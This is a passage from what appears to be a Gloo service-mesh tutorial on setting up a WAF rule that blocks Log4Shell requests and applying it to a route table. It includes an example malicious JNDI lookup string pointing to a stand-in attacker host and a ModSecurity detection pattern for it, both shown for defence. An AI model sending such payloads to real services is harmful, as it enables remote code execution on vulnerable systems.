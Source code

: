 Using the Web Application Firewall capabilities you can reject requests containing such headers. 

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That's what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

Create the WAF policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4shell
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \\\${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

In this example, we're going to update the main `RouteTable` to enforce this policy for all the applications exposed through the gateway (in any workspace).

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-httpbin
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-httpbin.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      labels:
        waf: "true"
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
```